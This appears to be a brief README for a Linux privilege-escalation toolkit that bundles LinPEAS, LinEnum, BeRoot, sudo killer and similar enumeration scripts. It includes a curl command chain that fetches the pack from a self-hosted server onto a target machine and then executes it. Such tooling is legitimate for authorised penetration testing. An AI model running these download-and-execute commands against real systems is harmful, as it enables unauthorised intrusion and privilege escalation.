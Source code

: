 # Frist run

```bash
./DownloadLinuxPECScript.sh
```

And you will get `PE_Pack.tar.gz`.

# How to use?

Just run `RunLinuxPE.sh`.

# Simple Example

```bash
python3 -m http.server 
cd /tmp
curl http://null:8000/PE_Pack.tar.gz > PE_Pack.tar.gz 
curl http://null:8000/RunLinuxPE.sh > RunLinuxPE.sh && chmod u+x RunLinuxPE.sh && ./RunLinuxPE.sh
```

# Include

+ LinPEAS

+ LinuxSmartEnumeration

+ LinEnum

+ BeRoot

+ unix-privesc-check

+ sudo killer

## Result

All output should be in `output` folder.